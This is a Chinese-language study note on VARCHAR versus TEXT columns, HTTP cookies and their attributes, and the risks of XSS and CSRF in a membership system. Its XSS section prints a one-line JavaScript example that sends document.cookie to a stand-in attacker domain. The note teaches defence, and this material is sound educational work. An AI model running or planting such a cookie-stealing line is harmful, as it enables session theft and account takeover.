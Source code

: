 ## 資料庫欄位型態 VARCHAR 跟 TEXT 的差別是什麼

varchar :可以設定最大長度，適合用在文字量少的欄位，可以有預設值。

text : 不可設定長度，適合用在文字量多的欄位，最大长度为 2 ^ 31 - 1 個字符，不可以有預設值。

* varchar 查询速度更快，所以能用 varchar 的时候就不用 text。
* 查詢速度：char 最快， varchar 次之，text 最慢。

>[參考資料](https://hsiangfeng.github.io/php/20190904/1799668484/) 從基礎學習 ThinkPHP-基礎 MySQL 學習-資料表篇

>[參考資料](https://ithelp.ithome.com.tw/articles/10203456?sc=iThelpR) 常用的資料庫資料型態

>[參考資料](http://n.sfs.tw/content/index/10266) [Mysql] 資料型態


## Cookie 是什麼？在 HTTP 這一層要怎麼設定 Cookie，瀏覽器又是怎麼把 Cookie 帶去 Server 的？

### Cookie 是什麼？
* Cookie是一種讓網路瀏覽更流暢方便的機制。使用Cookie能夠免去每次都要對經常存取的會員網站輸入登入資訊的麻煩，也更容易搜尋到自己需要的資訊。
* Cookie可以分成第一方（First-party）Cookie以及第三方（Third-party）Cookie等兩種。
* 第一方Cookie: 由使用者存取網站隸屬的網域，第一方Cookie不可以跨網域使用，主要用在記錄限定於該存取網站之內的瀏覽紀錄等資訊、保持登入狀態等用途。
* 第三方Cookie: 由不屬於使用者存取網站隸屬的網域所發行的Cookie，會跨網域獲取使用者的瀏覽紀錄資訊，並用來發布該使用者可能關注的廣告。

>[參考資料](https://blog.trendmicro.com.tw/?p=63387) 什麼是 Cookie？如何管理Cookie，防範網路隱私外洩?

### 在 HTTP 這一層要怎麼設定 Cookie ?
HTTP的無狀態性，伺服器並不知道使用者在每個頁面跳轉時到底帶入了什麼資訊，而Cookie就是用來繞開HTTP的無狀態性的「額外手段」之一，讓伺服器可以設定或讀取Cookies中所包含資訊，藉此維護使用者在使用服務時，在背景完成並可以持續跟伺服器發送請求以及對談中的狀態。

登入的應用為例，就是使用者登入一個網站時，伺服器端往往會請求用戶輸入使用者帳號及密碼，並且用戶可以勾選「下次自動登入」，這就是觸發使用Cookie的開關了，如果勾選了，在使用者前一次登入時，伺服器就會傳送了包含登入憑據（使用者名稱加密碼的某種加密形式）的Cookie到使用者的硬碟(或記憶體上)，在之後登入時，只要Cookie尚未到期，瀏覽器會傳送該Cookie給伺服器作驗證憑據，來減少重複登入的輸入行為。

Server 可以在 HTTP response 中回傳 Set-Cookie header 來告訴瀏覽器要設定 cookie。設定的語法如下：

```
Set-Cookie: [cookie名稱]=[cookie值]
```
Request 中的 cookie header 會是 [cookie名稱]=[cookie值] 的形式，用分號串接之後的結果：

``` 
Cookie: [cookie1]=[value1]; [cookie2]=[value2]
```
瀏覽器看到 Set-Cookie header 便會將 cookie 儲存起來，之後對同一個 domain 發送 HTTP request 的時候，瀏覽器就會將 cookie 帶在 HTTP request 的 Cookie header 裡。

Cookie属性除了name（名）和value（值）之外，還有以下四種可選擇的属性，來控制cookie的保存期限，作用網域及安全性：

1. expires: 表示Cookie的保存期限，在默認的情況下為暫時性的cookie，只要關閉瀏覽器就會消失

2. path: 指定與cookie關連在一起的網頁，默認的狀況下為和當前網頁同一目錄的網頁中有效。

3. domain: 設定cookie有效的網域名稱，可以和path一同設定，讓相同/類似的domain可以享有同樣的cookie

4. secure:算是cookie的安全值，在默認的情況cookie的傳輸上是不安全的，可以通過一個不安全且一般的http，若設置為安全的狀況下，可以讓cookie只在安全的http上進行傳輸

>[參考資料](https://shubo.io/cookies/)  Cookie 與 document.cookie

#### 瀏覽器又是怎麼把 Cookie 帶去 Server 的？
Cookie 是儲存在瀏覽器的一小段文字資料，通常由伺服器透過 Set-Cookie header 傳遞給瀏覽器。瀏覽器收到後會將 cookie 儲存起來，並在之後的請求回傳 cookie 至同樣的伺服器。
收到一個 HTTP 請求時，伺服器可以傳送一個 Set-Cookie 的標頭和回應。Cookie 通常存於瀏覽器中，並隨著請求被放在Cookie HTTP 標頭內，傳給同個伺服器。可以註明 Cookie 的有效或終止時間，超過後 Cookie 將不再發送。此外，也可以限制 Cookie 不傳送到特定的網域或路徑。

>[參考資料](https://progressbar.tw/posts/91) Cookie 是文檔還是餅乾？簡述HTTP網頁紀錄會員資訊的一大功臣。

>[參考資料](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/Cookies) HTTP cookies


## 我們本週實作的會員系統，你能夠想到什麼潛在的問題嗎？

機密或敏感的資訊不應該以 HTTP Cookies 的方式儲存或傳送，因為整個機制的本質是不安全的。

如果 JavaScript 能夠存取這個 cookie 就有受到 XSS Attack (Cross-Site Scripting，跨站腳本攻擊) 的風險。

什麼是 XSS Attack (跨站腳本攻擊) 呢？簡單的說，就是將一段惡意的 JavaScript 程式碼透過表單等方式上傳到 server，之後這份表單資料在前端呈現的時候惡意的 JavaScript 程式碼會被當成是 HTML 的一部分被執行。假設壞人能夠執行 JavaScript，便能很輕易地存取 document.cookie，就能夠竊取你用來登入的 cookie，並且用你的身份做惡意的操作：

``` js
// 把你的 cookie 送到壞人的伺服器
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

另外一個潛在問題是 CSRF （Cross Site Request Forgery），是一種 Web 上的攻擊手法。
在不同的 domain 底下卻能夠偽造出「使用者本人發出的 request」。CSRF 攻擊之所以能成立，是因為使用者在被攻擊的網頁是處於已經登入的狀態，所以才能做出一些行為。

>[參考資料](https://blog.techbridge.cc/2017/02/25/csrf-introduction/) 讓我們來談談 CSRF
 
 >[參考資料](https://shubo.io/cookies/) Cookie 與 document.cookie
